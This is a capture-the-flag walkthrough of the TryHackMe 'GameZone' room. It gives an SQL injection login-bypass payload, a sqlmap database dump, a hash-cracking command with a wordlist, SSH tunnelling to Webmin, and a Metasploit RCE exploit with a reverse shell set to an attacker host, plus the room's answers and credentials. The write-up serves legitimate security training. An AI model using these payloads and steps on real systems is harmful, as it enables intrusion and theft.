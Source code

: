 # GameZone

#### Task 1

Completed all required steps like to start the machine and connect with tryhackme vpn. 

##### Question: What is the name of the large cartoon avatar holding a sniper on the forum?
##### Solution:

I entered the IP of target machine in browser and gun man shown in the page. I took it's screenshot and done google lens on it. I came to found it's name.
##### Answer: agent47

#### Task 2

##### Question: When you've logged in, what page do you get redirected to? 
##### Solution: 
I tried to log in with the given payload of sqli. And I left the 

```bash
' or 1=1-- -
```

We successfully logged in. 

![Alt text](../Screenshots/GameZone/Portal.png)

Now look into the browser search bar at the top.
##### Answer: portal.php

#### Task 3

Now at portal.php, there is a search option. I captured the request in burpsuite and saved it into request.txt so that I can use it into sqlmap.

```bash 
sqlmap -r request.txt --dump
```

And it dump the whole database because searchitem parameter is vulnerable. It gave me the database tables like post and users.

##### Question: In the users table, what is the hashed password?
##### Solution: 
![Alt text](../Screenshots/GameZone/hash.png)

##### Question: What was the username associated with the hashed password?
##### Solution: `agent47`(Can see in the above image).

##### Question: What was the other table name?
##### Solution: 
![Alt text](../Screenshots/GameZone/table_name.png)
##### Answer: post

##### Question: What is the de-hashed password?
##### Solution: 
Now it's time to crack the password. We are using johntheripper to crak it. Save the hashed password in hash.txt and run the following command:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![Alt text](../Screenshots/GameZone/de_hashed_password.png)

##### Answer: videogamer124

##### Question: What is the user flag?
##### Solution: 
Now you have username and password. Run the ssh command in order to remotely connect with the machine.

```bash
ssh agent47@target_ip
```

Run `cat user.txt` in the target machine and you will get the user flag.

![Alt text](../Screenshots/GameZone/user_flag.png)

#### Task 5

##### Question: How many TCP sockets are running?
#### Solution:
We need to check that how many tcp sockets are open at target machine. Run the following command on target:

```bash
ss -tulnp
```
![Alt text](../Screenshots/GameZone/tcp_sockets.png)

You can count the tcp sockets opened in above image. 
#### Answer: 5

##### Question: What is the name of the exposed CMS?
##### Solution: 
Run the following command in your terminal (terminal of attacker machine).

```bash
ssh -L 10000:localhost:10000 agent47@<target_ip>
```

You can notice that port 10000 is opened for ssh. You can confirm it using the command `ss -tulnp`. It will show that port 10000 is opened.

Now you can make a request in your browser (attacker machine) like following:

```
http://localhost:10000
```
![Alt text](../Screenshots/GameZone/webmin_login.png)

You can see that we have got the login page. 
##### Answer: webmin

##### Question: What is the CMS version?
##### Solution: 
You have the login and password. Try it. Boom! We logged into the webmin portal. 

![Alt text](../Screenshots/GameZone/cms_version.png)

##### Answer: 1.580

#### Task 6

##### Question: What is the root flag?
##### Solution:
As mentioned in the task, we need to use metasploit to exploit the cms version. I opened the Metasploit using the command `msfconsole` and type:
```bash
search 1.580
```
I have shown 2 exploits as shown in the picture:
![Alt text](../Screenshots/GameZone/available_exploits.png)

I selected 0th exploit as it allows us to execute the RCE. For that I used the command `use 0`. Now using the command `show options` I checked which parameters I need to set. I then set the following parameters.

```bash
set RHOSTS 127.0.0.1
```

```bash
set USERNAME agent47
```

```bash
set password videogamer124
```

```bash
set SSL false
```

Then run the command `show payloads` in order to check the available options for this exploit.
![Alt text](../Screenshots/GameZone/available_payloads.png)

Then I selected the payload `payload/cmd/unix/reverse` using the command:

```bash
set payload payload/cmd/unix/reverse
```
Now run `show options` commands then You will find that LHSOT needs to be set for payload. Run the command:

```bash
set LHOST <attacker_ip>
```

![Alt text](../Screenshots/GameZone/exploit_options.png)

In the above picture you can see the final parameters set. Now run the command `exploit`. 

Boom! We got the root access.

![Alt text](../Screenshots/GameZone/root_shell.png)

Now You can find the flag in /root/root.txt.

![Alt text](../Screenshots/GameZone/root_flag.png)